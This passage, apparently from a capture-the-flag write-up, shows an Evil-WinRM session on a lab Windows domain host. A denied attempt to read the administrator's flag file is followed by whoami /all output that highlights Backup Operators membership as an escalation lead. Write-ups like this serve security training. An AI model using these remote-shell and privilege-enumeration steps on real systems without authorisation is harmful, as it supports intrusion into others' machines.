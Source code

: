 ```
|   +---Downloads
|   +---Favorites
|   +---Links
|   +---Music
|   +---Pictures
|   +---Saved Games
|   \---Videos
\---Public
    +---Documents
    +---Downloads
    +---Music
    +---Pictures
    \---Videos
```

However, I couldn't access it.
```
*Evil-WinRM* PS C:\users> cat administrator\desktop\root.txt
Access to the path 'C:\users\administrator\desktop\root.txt' is denied.
At line:1 char:1
+ cat administrator\desktop\root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Then I checked the user groups and privileges.
```
*Evil-WinRM* PS C:\users> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
baby\caroline.robinson S-1-5-21-1407081343-4001094062-1444647654-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators  <---             Alias            S-1-5-32-551                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
```
